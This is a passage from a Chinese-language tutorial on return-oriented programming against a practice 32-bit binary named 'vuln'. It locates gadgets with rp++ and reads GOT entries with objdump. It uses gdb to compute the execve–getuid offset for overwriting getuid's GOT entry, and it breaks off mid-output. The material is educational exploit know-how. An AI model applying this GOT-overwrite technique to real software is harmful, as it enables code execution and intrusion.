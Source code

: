 ```
...
$
```

好的。我们找到了一个`add`零件，它将结果复制到内存区域中。现在如果我们可以使 EBX 包含`GOT[getuid] - 0x5d5b04c4`，并使 EAX 包含偏移差，我们就可以成功执行 GOT 覆盖。

零件 2：确保 EBX 包含`getuid`的 GOT 条目。`getuid`的 GOT 条目（在下面展示）位于`0x804a004`。因此 EBX 应该为`0x804a004`，但是由于`add`零件中，固定值`0x5d5b04c4`加到了 EBX，所以 EBX 应减去这个固定值，也就是`ebx = 0x804a004 -0x5d5b04c4 = 0xaaa99b40`。现在我们需要寻找一个零件，它将这个值`0xaaa99b40`复制到 EBX 寄存器中。

```
$ objdump -R vuln
vuln: file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET TYPE VALUE 
08049ff0 R_386_GLOB_DAT __gmon_start__
0804a000 R_386_JUMP_SLOT printf
0804a004 R_386_JUMP_SLOT getuid
...
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
65 found.

A total of 65 gadgets found.
...
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$ 
```

好的，我们找到了`pop ebx`零件。因此将该值`0xaaa99b40`压入栈，并返回到`pop ebx`之后， EBX 包含`0xaaa99b40`。

零件 3：确保 EAX 包含偏移差。因此我们需要找到一个零件，它将偏移差复制到 EAX 寄存器中。

```
$ gdb -q vuln
...
(gdb) p execve
$1 = {} 0xb761a1f0 
(gdb) p getuid
$2 = {} 0xb761acc0 
(gdb) p/x execve - getuid
$4 = 0xfffff530
(gdb) 
...
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
```